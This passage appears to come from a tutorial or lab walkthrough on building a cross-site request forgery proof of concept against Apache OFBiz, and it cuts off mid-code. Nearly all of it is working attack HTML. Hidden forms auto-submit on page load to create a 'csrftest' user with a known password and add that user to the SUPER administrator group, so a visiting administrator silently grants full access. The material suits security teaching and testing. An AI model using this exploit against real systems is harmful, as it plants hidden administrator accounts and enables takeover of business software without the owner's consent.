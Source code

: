 Addition to add:
```html
<form action="https://ofbiz:8443/webtools/control/userLogin_addUserLoginToSecurityGroup" method="post" name="csrf2" target="_blank">
<input type="hidden" name="userLoginId" value="csrftest">
<input type="hidden" name="partyId">
<input type="hidden" name="groupId" value="SUPER">
<input type="hidden" name="fromDate_i18n">
<input type="hidden" name="fromDate">
<input type="hidden" name="thruDate_i18n">
<input type="hidden" name="thruDate">
</form>
```
ofbiz1.html ( addition added )
```html
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf" target="_blank">
    <input type="hidden" name="enabled">
    <input type="hidden" name="partyId">
    <input type="hidden" name="userLoginId" value="csrftest">
    <input type="hidden" name="currentPassword" value="password">
    <input type="hidden" name="currentPasswordVerify" value="password">
    <input type="hidden" name="passwordHint">
    <input type="hidden" name="requirePasswordChange" value="N">
    <input type="hidden" name="externalAuthId">
    <input type="hidden" name="securityQuestion">
    <input type="hidden" name="securityAnswer">
  </form>
  <form action="https://ofbiz:8443/webtools/control/userLogin_addUserLoginToSecurityGroup" method="post" name="csrf2" target="_blank">
<input type="hidden" name="userLoginId" value="csrftest">
<input type="hidden" name="partyId">
<input type="hidden" name="groupId" value="SUPER">
<input type="hidden" name="fromDate_i18n">
<input type="hidden" name="fromDate">
<input type="hidden" name="thruDate_i18n">
<input type="hidden" name="thruDate">
  </form>
</body>
</html>

```
Next, we'll create a JavaScript function to submit the forms. We will need to add a _head_ element to contain our script and update the body tag's _onload_ event to call the new JavaScript function.
Addition to add:
```html
<html>
<head>
<script>
  function submitForms() {
    document.forms['csrf'].submit();
    document.forms['csrf2'].submit();
    return false;
  }
</script>
</head>
<body onload="submitForms();" >
```
ofbiz1.html ( addition added )
```html
<html>
<head>
<script>
```